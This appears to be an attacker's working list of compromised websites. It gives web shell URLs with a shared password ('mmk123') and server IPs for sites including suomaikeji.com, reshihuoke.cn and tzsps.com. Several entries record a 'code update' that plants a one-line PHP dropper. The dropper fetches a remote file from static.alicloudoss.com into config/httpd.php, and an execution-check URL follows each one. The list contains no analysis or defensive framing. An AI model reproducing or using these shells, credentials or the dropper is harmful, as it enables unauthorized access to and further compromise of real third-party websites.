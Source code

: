 https://www.taiyangnengludengweixiu.com/uploads/20230227/m1.php |mmk123 |  8.140.244.215 | 连接不上

http://zhicheng.suomaikeji.com/template/web/order/m1.php |mmk123 |  8.140.244.215
代码更新：0608 ✅
http://zhicheng.suomaikeji.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://zhicheng.suomaikeji.com/config/httpd.php?d=up

https://hnsjtjsxh.cn/static/backup/upgrade/m1.php |mmk123 |  8.140.244.215 | 404
https://alfw.suomaikeji.com/template/template_init.php |mmk123 |  8.140.244.215

http://reshihuoke.cn/template/default/html/comm/m1.php |mmk123 |  124.221.145.227
代码更新：0608 ✅
http://reshihuoke.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://reshihuoke.cn/config/httpd.php?d=up

http://360ai.cc/wp-content/languages/themes/m1.php |mmk123 |  124.221.145.227
https://www1.reshihuoke.cn/template/template_init.php |mmk123 |  124.221.145.227
代码更新：0608 ✅
https://www1.reshihuoke.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www1.reshihuoke.cn/config/httpd.php?d=up

https://xqu.ruantu.fun/template/default/simple.php |mmk123 |  47.121.31.234
代码更新：0608 ✅
https://xqu.ruantu.fun/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xqu.ruantu.fun/config/httpd.php?d=up

https://www.crystunion.com/template/default/simple.php |mmk123 |  47.105.45.80
代码更新：0608 ✅
https://www.crystunion.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.crystunion.com/config/httpd.php?d=up

https://introduce.crword.shop/index_bk.php |mmk123 |  124.222.235.221
代码更新：0608 ✅
https://introduce.crword.shop/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://introduce.crword.shop/config/httpd.php?d=up

https://www.tzsps.com/static/images/m1.php |mmk123 |  106.54.60.101
代码更新：0608 ✅
https://www.tzsps.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.tzsps.com/config/httpd.php?d=up
https://www.tzsps.com/index_bk.php |mmk123 |  106.54.60.101
